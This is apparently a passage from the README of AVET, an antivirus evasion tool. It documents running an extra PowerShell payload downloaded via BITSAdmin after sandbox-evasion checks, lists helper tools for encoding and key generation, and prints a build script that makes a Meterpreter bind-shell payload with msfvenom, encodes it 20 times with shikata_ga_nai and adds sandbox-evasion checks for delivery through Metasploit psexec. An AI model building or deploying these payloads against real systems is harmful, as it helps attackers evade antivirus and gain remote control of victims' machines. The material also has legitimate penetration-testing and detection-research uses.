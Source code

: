 
### Additional command execution
Grants you the ability to execute an additional cmd/powershell payload directly after the eventual sandbox evasion functions.
The payload source is compatible with AVET's data retrieval methods.

The following example downloads a powershell payload via BITSAdmin: 
```
set_command_source download_bitsadmin
set_command_exec exec_via_powershell
```


### Helper tools

#### data_raw_to_c
Takes raw data as input from a file, converts it into C-array format and writes output to another file.
This aids in providing the correct format for the static_from_file data retrieval method.

#### generate_key
Key generation utility. Generates either a (non-cryptographically) random key or takes a preset key as input,
and outputs the raw key data into a specified file.
This aids in providing key material for the AVET encryption feature.

#### sh_format
Utility from AVET 1.3 that performs AVET encoding.


## AVET & metasploit psexec

AVET is compatible to metasploit's psexec module. For that, the generated executable needs to be compiled as a Windows Service, which is implemented by using *avetsvc.c*. Consider the corresponding example build script

*build_svc_20xshikata_bindtcp_win32.sh*:

```
#!/bin/bash          
# Designed for use with msf psexec module!

# print AVET logo
cat banner.txt

# include script containing the compiler var $win32_compiler
# you can edit the compiler in build/global_win32.sh
# or enter $win32_compiler="mycompiler" here
. build/global_win32.sh

# import global default lhost and lport values from build/global_connect_config.sh
. build/global_connect_config.sh

# override connect-back settings here, if necessary
LPORT=$GLOBAL_LPORT

# make meterpreter bind payload, encoded 20 rounds with shikata_ga_nai
msfvenom -p windows/meterpreter/bind_tcp lport=$LPORT -e x86/shikata_ga_nai -i 20 -f raw -a x86 --platform Windows > input/sc_raw.txt

# import feature construction interface
. build/feature_construction.sh

# add evasion techniques
add_evasion fopen_sandbox_evasion 'c:\\windows\\system.ini'
add_evasion gethostbyname_sandbox_evasion 'this.that'
```